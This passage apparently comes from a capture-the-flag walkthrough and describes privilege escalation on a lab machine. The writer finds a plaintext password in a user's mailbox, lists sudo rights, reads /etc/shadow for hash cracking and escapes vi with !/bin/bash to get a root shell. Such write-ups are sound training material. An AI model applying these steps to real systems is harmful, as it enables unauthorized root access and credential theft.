 Success, but there was more to be done. I was in the server, but I needed to get root access. I tried to run sudo but it prompted me for a password, which I didn't have. It was time to do some exploring. 

I was limited in what I could read, so I went through pirrip's home directory, web folders, log files, and so on. Eventually I made my way to /var/mail/pirrip. I opened this up and read through pirrip's emails and right at the bottom, found pirrip's password:

```
From: noreply@fermion.herot.net
Message-Id: <200801132354.m0DNshjD011722@slax.example.net>
Date: Sun, 13 Jan 2008 23:54:42 +0000
To: pirrip@slax.example.net
Subject: Fermion Account Login Reminder
User-Agent: nail 11.25 7/29/05
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
 
Fermion Account Login Reminder
 
Listed below are your Fermion Account login credentials.  Please let us know if you have any questions or problems.
 
Regards,
Fermion Support
 
 
E-Mail: pirrip@slax.example.net
Password: 0l1v3rTw1st
```

Using this new bit of information, I tried sudo again and it accepted the password and presented me with a list of programs I could use with sudo:

```
pirrip@slax:~$ sudo -l
 
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
 
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
 
Password:
User pirrip may run the following commands on this host:
    (root) /usr/bin/more
    (root) /usr/bin/tail
    (root) /usr/bin/vi
    (root) /usr/bin/cat ALL
```

vi is allowed, so I used it to open /etc/shadow to obtain the encrypted passwords for later cracking. Another neat feature of vi is it's ability to run commands by typing !command while you're viewing a file. So I entered !/bin/bash and was dropped into a root shell:
